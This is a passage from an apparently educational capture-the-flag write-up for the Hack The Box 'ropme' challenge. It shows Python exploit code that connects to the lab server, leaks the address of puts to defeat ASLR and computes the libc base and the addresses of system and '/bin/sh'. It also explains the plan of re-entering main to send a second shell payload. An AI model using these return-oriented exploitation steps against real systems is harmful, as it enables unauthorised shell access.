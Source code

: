 ```Python
    print "Address of binsh: ", hex(libc_base + 0x18cd57)
```

Which gives us:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
Virtual address of puts is: 0x7fdc0ec36690
Base of libc: 0x7fdc0ebc7000
Address of system:  0x7fdc0ec0c390
Address of binsh:  0x7fdc0ed53d57
```

Note how libc base is different now, this is expected as ASLR is active on the remote machine. BUT! we can successfully learn the base of it every run!

One more thing to finish, after we leak the address - the program dies, and when the program dies - the offsets change again! so we need to ask ourselves: **how to leak the addresses and also keep the process alive so that we will be able to send it to system("/bin/sh")?**

Solution: after returning from `fflush`, let's return to `main()` again! This will require us to forge a new payload and send it again. So our (almost) final code is:

```Python
import struct
import socket
import binascii

def ptr(n):
    return struct.pack("Q", n)

def compute_libc_base_from_puts(puts_va):
    # remote machine uses libc v2.23
    puts_offset_in_libc = 0x6f690
    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))


    # Only take the 7 first bytes of the input
    # Because the rest of it will be "ROP Me outside ..." again
    # we don't care about that, we care about the address only
    ans = conn.recv(1024)[:7]      
    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "Virtual address of puts is: 0x" + binascii.hexlify(ans)

    libc_base = compute_libc_base_from_puts(int(binascii.hexlify(ans), 16))
    print "Base of libc:", hex(libc_base)
```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me
